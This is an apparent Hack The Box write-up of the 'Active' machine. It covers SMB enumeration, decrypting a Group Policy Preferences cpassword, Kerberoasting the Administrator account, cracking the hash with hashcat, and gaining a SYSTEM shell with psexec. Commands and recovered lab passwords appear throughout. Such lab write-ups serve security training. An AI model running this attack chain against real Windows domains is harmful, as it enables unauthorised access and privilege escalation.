# [Active](https://app.hackthebox.eu/machines/148)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.100 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.100 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.100
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.100
```

The quick TCP scan returns the following:



The UDP quick scan returns the following:



The TCP/UDP port 88 is usually only open on a domain controller... Check the domain `active.htb` from `nmap` using DNS:

```bash
nslookup
set type=ANY
server 10.10.10.100
_ldap._tcp.dc._msdcs.active.htb
dc.active.htb
```



Start with SMB:

```bash
smbclient -N -L //10.10.10.100
```



It seems like there are some open shares. Try listing them:

```bash
(
ip=10.10.10.100
IFS='
'
shares=$(smbclient -N -L //$ip | \
         grep Disk | \
         sed 's/^[ \t]*//g' | \
         awk '{split($0,a,"Disk"); gsub(/[ \t]+$/,"",a[1]); print a[1]}')
for s in $shares; 
do 
  echo "-- \\\\$ip\\$s --"
  smbclient -N "\\\\$ip\\$s" -c 'ls;quit'; 
done
)
```



It seems like the `Replication` share allows for anonymous connections. Recursively list all contents:

```bash
smbmap -g -d active.htb -H 10.10.10.100 --depth 10 -R 'Replication\active.htb'
```

This returns the following list:

```
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\DfsrPrivate, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\scripts, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\DfsrPrivate\ConflictAndDeleted, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\DfsrPrivate\Deleted, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\DfsrPrivate\Installing, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI, fileSize:23, date:Sat Jul 21 06:38:11 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\USER, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI, fileSize:119, date:Sat Jul 21 06:38:11 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol, fileSize:2788, date:Sat Jul 21 06:38:11 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf, fileSize:1098, date:Sat Jul 21 06:38:11 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml, fileSize:533, date:Sat Jul 21 06:38:11 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI, fileSize:22, date:Sat Jul 21 06:38:11 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\USER, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit, fileSize:0, date:Sat Jul 21 06:37:44 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Replicationactive.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf, fileSize:3722, date:Sat Jul 21 06:38:11 2018
```

From this list, a few insteresting paths standout:

```
active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

Looking through these files shows that `Groups.xml` has the following interesting content:

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" 
      name="active.htb\SVC_TGS" image="2" 
      changed="2018-07-18 20:46:06" 
      uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
<Properties 
      action="U" 
      newName="" 
      fullName="" 
      description=""
      cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" 
      changeLogon="0" 
      noChange="1" 
      neverExpires="1" 
      acctDisabled="0" 
      userName="active.htb\SVC_TGS"/>
</User>
</Groups>
```

Some searching for this filename gives the following:

- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#cached-gpp-pasword
- https://adsecurity.org/?p=2288

It seems like this hash in `cpassword` is a crackable:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```



It seems like the password for the `active.htb\SVC_TGS` account may be `GPPstillStandingStrong2k18`? Test it out:

```bash
crackmapexec smb 10.10.10.100 -d 'active.htb' -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```



The credentials look valid! Try and use it to get a shell

```bash
psexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
smbexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
atexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100 whoami
wmiexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100 whoami
```



No luck... Try looking if any new shares/files are now readable:

```bash
smbmap -R -g -d active.htb -H 10.10.10.100 --depth 10 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

This provides new access to the `Users` and `SYSVOL` shares. The `SYSVOL` share has the sae contents as the `Replication` share. However, the `Users` share provides more info:

```
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Contacts, fileSize:0, date:Sat Jul 21 11:14:20 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Desktop, fileSize:0, date:Sat Jul 21 11:14:42 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Downloads, fileSize:0, date:Sat Jul 21 11:14:28 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Favorites, fileSize:0, date:Sat Jul 21 11:14:50 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Links, fileSize:0, date:Sat Jul 21 11:15:00 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Documents, fileSize:0, date:Sat Jul 21 11:15:23 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Music, fileSize:0, date:Sat Jul 21 11:15:40 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Pictures, fileSize:0, date:Sat Jul 21 11:15:50 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Videos, fileSize:0, date:Sat Jul 21 11:16:05 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Saved Games, fileSize:0, date:Sat Jul 21 11:16:20 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Searches, fileSize:0, date:Sat Jul 21 11:16:32 2018
host:10.10.10.100, privs:READ_ONLY, isDir:f, name:Users\SVC_TGS\Desktop\user.txt, fileSize:34, date:Sat Jul 21 11:14:42 2018
```

It seems like this provides `user.txt` but not through a dedicated shell... Since a valid username on the domain is known, perform more dedicated enumeration for the domain:

- https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual-1

```bash
ldapsearch -x -h 10.10.10.100 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "DC=active,DC=htb"
```

This returns a lot of information on the domain, but no other user accounts to target... A more direct scan can be done as follows:

```bash
GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
```



However, the `SVC_TGS` account may allow for other Active Directory attack methods:

- https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

Try seeing is there is another account to move laterally to using kerberoasting:

```bash
GetUserSPNs.py -dc-ip 10.10.10.100 -outputfile active.hash active.htb/SVC_TGS:GPPstillStandingStrong2k18
```



Nice! Try to crack the hash of the `Administrator@ACTIVE.HTB` CIFS/SMB account hash:

- According to https://hashcat.net/wiki/doku.php?id=example_hashes, the hashcat module is 13100

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 13100 -a 0 --quiet --force --potfile-disable active.hash rockyou.txt 
```



So the password for `Administrator@ACTIVE.HTB` is for CIFS/SMB. Try it out over SMB:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

And this provides a SYSTEM shell:



